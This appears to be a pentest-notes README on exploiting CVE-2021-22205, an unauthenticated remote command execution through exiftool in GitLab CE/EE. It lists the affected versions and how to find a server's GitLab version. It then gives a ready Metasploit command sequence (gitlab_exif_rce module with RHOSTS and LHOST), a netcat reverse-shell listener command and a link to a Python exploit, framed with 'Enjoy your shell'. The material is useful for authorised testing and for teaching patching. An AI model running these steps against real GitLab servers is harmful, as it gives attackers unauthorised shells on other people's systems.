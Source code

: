 # Gitlab - CVE-2021-22205 Unauthenticated RCE with exiftool

An issue has been discovered in GitLab CE/EE affecting all versions starting from 11.9. GitLab was not properly validating image files that were passed to a file parser which resulted in a remote command execution.

## Requirements

This vulnerability affect the below **Gitlab CE/EE** versions:

- `>=11.9`, `<13.8.8`
- `>=13.9`, `<13.9.6`
- `>=13.10`, `<13.10.3`

## Exploitation

### Step 1: Try to find the version of Gitlab

First of all, before trying to exploit the RCE, we need to try to find the version of Gitlab. 

- **Authenticated**: The version can often be found on `/help` endpoint when authenticated with a user account.
    
    ![](imgs/gitlab_version.png)


- **Unauthenticated**: On recent versions the `What’s new` feature on `/help` endpoint show an approximative version without authentication. Found this menu clinking on `?` button on top right.
    
    ![](imgs/gitlab_approximative_version.png)
    
### Step 2.1: Exploit using metasploit
    
This RCE technique is available in the `multi/http/gitlab_exif_rce` module in metasploit.
    
```bash
use multi/http/gitlab_exif_rce
set RHOSTS 192.168.1.10
set LHOST wlan0
run
```
**Enjoy your shell**
  
After running the metasploit module, if the remote gitlab is vulnerable you will have an meterpreter session.
  
![](imgs/metasploit_gitlab_rce.png)

### Step 2.2: Exploit without Metasploit

Inspiringz made an [python exploit](https://github.com/inspiringz/CVE-2021-22205).

**Start your listener**  

`nc -lvnp 1337`

**Enjoy your shell**

![](imgs/rev_shell_python.png)


## References

 - [Action needed by self-managed customers in response to CVE-2021-22205](https://about.gitlab.com/blog/2021/11/04/action-needed-in-response-to-cve2021-22205/)  
 - [Hackerone report #1154542](https://hackerone.com/reports/1154542)  
 - [Gitlab issue #327121](https://gitlab.com/gitlab-org/gitlab/-/issues/327121)  